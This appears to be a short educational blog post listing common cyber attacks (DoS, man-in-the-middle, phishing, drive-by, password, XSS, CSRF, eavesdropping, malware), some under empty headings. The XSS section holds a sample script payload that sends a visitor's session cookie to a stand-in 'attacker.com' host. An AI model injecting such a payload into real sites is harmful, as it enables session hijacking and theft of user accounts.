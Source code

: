 ```yaml
---
layout : post
title : Cyber Attacks
comments: true
categories : [Security]
---
```


### Dos/DDos Attack

   Dos - Denial-of-service, overwhelms a system’s resources so that
      it cannot respond to service requests.

   DDos - distributed denial-of-service

   If DoS attacks are performed by many computers at the
   same time. This scenario of attack is known as a DDoS.
   This type of attack can be even more difficult to overcome due to the
   attacker appearing from many different IP addresses around the world
   simultaneously, making determining the source of the attack even more
   difficult for network administrators.

### MitM attack

MitM : Man-in-the-middle

Here are some common types of man-in-the-middle attacks:

1. Session hijacking
2. IP Spoofing
3. Replay

### Phishing attack

It could involve an attachment to an email that loads malware onto your computer.
It could also be a link to an illegitimate website that can trick you into
downloading malware or handing over your personal information.

### Drive-by attack

Hackers look for insecure websites and plant a malicious script into HTTP or PHP
code on one of the pages. This script might install malware directly onto the
computer of someone who visits the site, or it might re-direct the victim to a
site controlled by the hackers.

These attacks are known as drive-by because they don’t require any action
on the victim’s part except visiting the compromised website.

### Password attack

1. Brute-force password guessing means using a random approach by trying
different passwords and hoping that one work

2. dictionary attack - One approach is to copy an encrypted file that
contains the passwords, apply the same encryption to a dictionary of commonly
used passwords, and compare the results.

### SQL injection attack

### XSS attack

XSS : Cross-site scripting

in this case the website itself is not being attacked. Instead, the malicious
code the attacker has injected only runs in the user's browser when they visit
the attacked website, and it goes after the visitor directly, not the website.

For example, this server code:

```javascript
response.write(“Good morning, ” + request.getParameter(“Name”));
```

Instead, an attacker can inject a malicious payload:

```javascript
Good Morning, Boss<script>document.location=’http://attacker.com/?cookie=’
+document.cookie</script>
```

which will be executed by the user’s browser, sending their session cookie to
the attacker and allowing the attacker to hijack the session.

### CSRF or XSRF attack

CSRF : Cross-site request forgery

unathorized commands are sent from the user's browser to a web site

### Eavesdropping attack

An attacker can install network monitors such as sniffers on a server or
computer to perform an eavesdropping attack and intercept data as it is
being transmitted.

### Birthday attack

### Malware attack

For example, Macro viruses in world/excel or file infectors(such as .exe files)
